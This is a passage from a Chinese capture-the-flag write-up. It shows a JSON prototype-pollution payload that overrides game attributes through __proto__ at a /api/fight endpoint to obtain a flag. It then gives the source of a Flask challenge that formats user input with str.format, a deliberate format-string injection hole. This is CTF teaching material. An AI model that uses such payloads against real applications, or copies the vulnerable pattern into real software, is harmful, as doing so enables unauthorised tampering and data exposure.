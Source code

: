 ```js
                    alert(res.result);
                } else if(res.status === 403){
                    alert("Invalid input, please try again");
                } else if(res.status === 500){
                    alert("Json data only!");
                }
            },
        })
    })
});
```

本题通过修改 `__proto__` 来修改值就能解力。

通过 `POST` 访问 `/api/fight` ，Payload 如下

```json
{
    "attributes": {
        "health": 0,
        "attack": 0,
        "armor": 0,
        "__proto__": {
            "health": 1000000,
            "attack": 1000000,
            "armor": 1000000
        }
    }
}
```

访问后就可以得到 flag 了。

### 地狱通讯

```python
from flask import Flask, render_template, request
from flag import flag, FLAG
import datetime

app = Flask(__name__)


@app.route("/", methods=['GET', 'POST'])
def index():
    f = open("app.py", "r")
    ctx = f.read()
    f.close()
    f1ag = request.args.get('f1ag') or ""
    exp = request.args.get('exp') or ""
    flAg = FLAG(f1ag)
    message = "Your flag is {0}" + exp
    if exp == "":
        return ctx
    else:
        return message.format(flAg)


if __name__ == "__main__":
    app.run()
```

